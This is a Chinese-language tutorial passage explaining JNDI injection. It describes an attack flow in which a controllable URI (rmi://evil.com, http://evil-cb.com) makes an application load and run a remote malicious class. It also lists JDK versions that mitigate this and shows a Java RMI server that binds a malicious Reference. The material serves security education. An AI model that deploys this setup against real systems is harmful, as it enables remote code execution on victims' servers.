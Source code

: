 1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 **rmi://evil.com:1099/refObj**
2. 原先配置好的上下文环境 会因为动态环境转换而被指向 **rmi://evil.com:1099/**
3. 应用去 **rmi://evil.com:1099** 请求绑定对象 refObj，攻击者事先准备好的 RMI 服务会返回与名称 refObj 绑定的ReferenceWrapper 对象
4. 应用获取到 ReferenceWrapper 对象开始从本地 **CLASSPATH** 中搜索 EvilObject 类，如果不存在则会从恶意远程服务器上去尝试获取 **EvilObject.class**，即动态的去获取 `http://evil-cb.com/EvilObject.class`
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 **EvilObject.class**
6. 应用开始调用 **EvilObject** 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行

**防御**

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly 默认值被设置为 true。将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端JVM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u132、7u122、8u113之后：增加了 com.sun.jndi.rmi.object.trustURLCodebase 选项，默认为 false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了 com.sun.jndi.ldap.object.trustURLCodebase 选项，默认为 false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

![image-20230124155501526](../.gitbook/assets/image-20230124155501526.png)

## JNDI-RMI

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:8080/";
        Registry r = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("calc", "calc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        r.bind("evil",referenceWrapper);
    }
}
```
